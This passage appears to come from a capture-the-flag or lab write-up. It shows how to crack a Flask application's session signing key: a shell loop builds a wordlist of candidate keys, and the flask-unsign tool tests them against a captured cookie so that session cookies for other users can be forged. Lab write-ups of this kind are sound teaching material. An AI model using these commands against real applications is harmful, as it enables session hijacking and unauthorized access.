 * Now we can find the session key and generate session key for other users using **Flask-unsgin**.

> Download [Flask-unsign](https://github.com/Paradoxis/Flask-Unsign) 

* But first we need to create a wordlist contains all the possible session key using this command:

```console
for i in $(seq 100000 999999); do echo "secret_key_$i"; done > wordlist.txt
``` 
![intranet11](/images/intranet11.png)

* Extract the cookie session and save it to a file named **jwt.txt**

* Find the session key:

```console
flask-unsign --unsign --cookie < jwt.txt --wordlist=wordlist.txt
```
![intranet12](/images/intranet12.png)

* To create our own cookie session, we have to check how the jwt session token is structured.

![intranet13](/images/intranet13.png)
